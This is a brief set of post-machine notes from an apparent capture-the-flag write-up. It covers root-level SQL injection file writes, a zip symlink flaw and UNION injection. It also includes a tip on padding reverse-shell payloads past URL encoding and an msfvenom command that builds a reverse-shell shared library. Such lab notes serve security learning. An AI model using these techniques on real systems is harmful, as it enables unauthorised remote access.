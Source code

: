 -----

**Post-Machine Notes:**

In the context of the SQLi, the way you were meant to know that you can write files to the filesystem, was if you analyzed the /var/www/html/functions.php file from the zip file symlink vulnerability, we'd notice that the DB is running as the root db user, which as that user, gives us the ability to write to the file system, usually a good bet is placing it in `/dev/shm` or `/var/lib/mysql`.

Also, you could also have performed a UNION SQLi as well, its not an OOB SQLi like I thought it was, albeit there wasn't much to retrieve from the DB.

Another great tip is, when we want to directly include a reverse shell to get executed, and want to know for sure that the payload is working without being screwed up by URL encoding. we can make sure there are no `+` or `=`, we can do that by adding extra spaces in between the characters like IppSec does here: _(and don't forget to try running it against yourself first as well)_

![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/66f569d7-13a7-4295-a7b4-3f18682ff285)

To test it on ourselves:

![image](https://github.com/partyh4t/Cyber-Notes/assets/114421293/2241fdf0-ce13-4586-8d37-714f465a592f)

We could have used `msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf.so -o libcounter.so` as that would've saved me the hassle of trying to get a properly working malicious `libcounter.so` , since I had to find out about`__attribute__((constructor))`



























